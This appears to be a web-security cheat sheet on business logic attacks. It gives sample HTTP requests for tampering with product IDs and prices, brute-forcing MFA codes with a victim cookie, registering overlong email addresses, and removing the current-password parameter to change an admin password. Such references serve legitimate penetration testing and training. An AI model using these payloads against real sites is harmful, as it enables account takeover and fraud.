 ```yaml
---
title: Business Logic Attack
description: Business Logic is the part of the program that encodes the real-world business rules that determine how data can be created, stored, and changed. 
tags:
    - Web
refs:
date: 2024-04-13
draft: false
---
```


## Change Request Params to Unexpected Values

```sh
productId=-1
productId=a
productId=  # empty value

price=-1000
price=1000-
price=%1000
price=%-1000
```

<br />

## Exploit Broken Two-Factor

### Brute force a MFA Code

```html
POST /login HTTP/1.1
Cookie: verify=victim
...

<!-- Brute force digits code -->
mfa-code=1111
```

<br />

## Loop Back with 2,147,483,647

No contents yet.

<br />

## Register with Too Long-Length Email Address

```html
POST /register HTTP/1.1
...

username=attacker&password=pass1&email=aaaaaaaaaaaaa...aa@vulnerable.com.attacker.com
```

<br />

## Remove the Specific POST Params

```html
POST /change-password HTTP/1.1
...

<!-- Remove 'current-password' parameter -->
username=admin&new-password-1=newpass&new-password-2=newpass
```
